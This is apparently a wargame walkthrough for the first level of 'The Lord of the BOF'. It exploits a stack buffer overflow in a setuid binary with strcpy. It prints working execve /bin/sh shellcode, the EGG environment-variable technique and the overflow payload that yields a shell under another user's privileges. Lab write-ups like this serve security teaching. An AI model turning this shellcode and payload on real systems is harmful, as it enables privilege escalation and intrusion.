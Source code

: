 # Level1

## This level's goal
- LEVEL1 (gate -> gremlin) : Simple BOF

***

```
[gate@localhost gate]$ bash2

[gate@localhost gate]$ ls -l
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c

[gate@localhost gate]$ cat gremlin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

[gate@localhost gate]$ ./gremlin
argv error

[gate@localhost gate]$ ./gremlin AAAA
AAAA
```

In the code, the gremlin seems that it prints buffer(256bytes) which is your input.

```
(gdb) run
Starting program: /home/gate/gremlin
/bin/bash: /home/gate/gremlin: Operation not permitted
```

You cannot debug germlin cuz of the privilege, so you need to copy that for debug.

```
[gate@localhost gate]$ cp gremlin gremlin2
[gate@localhost gate]$ gdb -q gremlin2
(gdb) set disass intel
(gdb) disass main
0x8048433 <main+3>:     sub    %esp,0x100
0x804846e <main+62>:    lea    %eax,[%ebp-256]
```

The buffer is 256 without dummy, so the memory seems 256bytes + SFP(4byts) + RET(4bytes).

The point is that you need to overflow buf and SFP (260bytes) and then exploit RET with the shell code.

The shell code is   
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80`

```
[gate@localhost gate]$ export EGG=`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
[gate@localhost gate]$ echo 'int main() { printf("EGG -> 0x%x\n", getenv("EGG")); } ' > getegg.c
[gate@localhost gate]$ gcc getegg.c -o getegg
[gate@localhost gate]$ ./getegg
EGG -> 0xbffffeb1
```

Then the payload will be the dummy strings + the shell code's address.

```
[gate@localhost gate]$ ./gremlin `python -c 'print "A"*260+"\xb1\xfe\xff\xbf"'`
bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
bash$ my-pass
euid = 501
hello bof world
```




